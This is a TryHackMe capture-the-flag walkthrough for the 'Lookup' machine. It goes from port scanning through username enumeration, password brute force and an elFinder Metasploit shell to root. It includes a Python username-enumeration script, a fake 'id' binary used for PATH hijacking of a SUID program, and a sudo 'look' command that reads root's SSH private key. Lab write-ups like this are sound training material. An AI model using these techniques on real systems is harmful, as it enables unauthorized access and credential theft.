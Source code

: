 #Red-Team #Writeup #CTF #Vulnerability #TryHackMe 

## Reconnaissance/Enumeration


### Initial Scan

#### We begin with an `nmap` scan and find two open ports:

	Port 22: SSH
	Port 80: HTTP (Apache/2.4.41 on Ubuntu)

![[Pasted image 20241123124801.png]]

### Exploring HTTP
#### Visiting port 80 redirects us to `http://lookup.thm`.
#### To access this site, we add `lookup.thm` to the `/etc/hosts` file:

![[Pasted image 20241123124825.png]]

#### `echo 'MACHINE_IP lookup.thm' >> /etc/hosts`

#### Now, navigating to the URL presents us with a login page.

![[Pasted image 20241123125020.png]]

#### Entering `admin` as both username and password results in a "wrong password" error and redirects back after three seconds.

![[Pasted image 20241123125123.png]]

#### Using a different username gives a "wrong username or password" error.

![[Pasted image 20241123125229.png]]


## Initial exploitation/Gaining access


 ### Enumerating Valid Usernames

#### These observations suggest we can enumerate valid usernames. A simple Python script helps automate this:

````                                                                                                                       
#!/usr/bin/python3

import requests

url = "http://lookup.thm/login.php"
file_path = "/usr/share/seclists/Usernames/Names/names.txt"

try:
    with open(file_path, "r") as file:
        for username in file:
            username = username.strip()
            if not username:
                continue
            
            response = requests.post(url, data={"username": username, "password": "password"})
            
            if "Wrong password" in response.text:
                print(f"Valid username: {username}")
                break  # Stop if a valid username is found
                
except FileNotFoundError:
    print("Usernames file not found.")
except Exception as e:
    print(f"An error occurred: {e}")
````

#### After running the script, we find two valid usernames.

![[Pasted image 20241123131026.png]]

### Brute Forcing Passwords

#### Since we already knew `admin` was valid, we attempt to brute force the password for the second user, `jose`. Tools like Burp Suite's **Turbo Intruder** or **Hydra** can assist here.

![[Pasted image 20241123131314.png]]

![[Pasted image 20241123131642.png]]

#### After finding the password, we log in successfully.

![[Pasted image 20241123131724.png]]

### Subdomain Discovery

#### After logging in, we are redirected to a subdomain. Adding this to `/etc/hosts` lets us proceed:

### `echo 'MACHINE_IP lookup.thm files.lookup.thm' >> /etc/hosts`


![[Pasted image 20241123132030.png]]

#### This subdomain hosts a file manager running **elFinder CMS**. Checking the `?` button reveals the version.

![[Pasted image 20241123132217.png]]

### Research and Exploitation

#### Researching this version reveals a Metasploit exploit for **elFinder**.

![[Pasted image 20241123132350.png]]
#### After configuring and running the exploit, we gain a shell.

![[Pasted image 20241123150643.png]]
#### After the configuration, we run the exploit and get the shell

![[Pasted image 20241123132757.png]]


## Privilege escalation to user


### SUID Binary Discovery

#### Listing SUID binaries shows a binary named `pwm`, owned by root.

![[Pasted image 20241123134631.png]]

#### When executed, the binary runs the `id` command, attempts to read the `.passwords` file, and outputs its content if found. However, it fails if the `.passwords` file is missing.

![[Pasted image 20241123134729.png]]

### Exploiting `pwm`

#### Checking home directories reveals a user named `think` with a `.passwords` file.

![[Pasted image 20241123144155.png]]
#### To trick the binary, we create a fake `id` command in `/tmp` and modify the `PATH` environment variable.

#### We create `/tmp/id` with this content (and make it executable):

````
#!/bin/sh
echo "uid=33(think) gid=33(think) groups=33(think)"
````

![[Pasted image 20241123135922.png]]
#### unning `pwm` now prints the `.passwords` file.

![[Pasted image 20241123142312.png]]

### SSH Brute Force

#### Saving the passwords locally, we brute force the SSH login for `think`.

![[Pasted image 20241123143411.png]]

#### After logging in, we retrieve the user flag.


## Privilege escalation to root


### Identifying Sudo Privileges

#### Running `sudo -l` shows that we can execute the `look` command as root.

![[Pasted image 20241123144420.png]]

#### Researching `look` on **GTFOBins** reveals it can be used for privileged reads.

![[Pasted image 20241123144544.png]]

### Exploiting `look`

#### Using `look`, we read `/root/.ssh/id_rsa`:

#### `sudo -u root /usr/bin/look '' "/root/.ssh/id_rsa"`

![[Pasted image 20241123144753.png]]

#### Using the extracted SSH private key, we log in as root and retrieve the final flag.

![[Pasted image 20241123145236.png]]

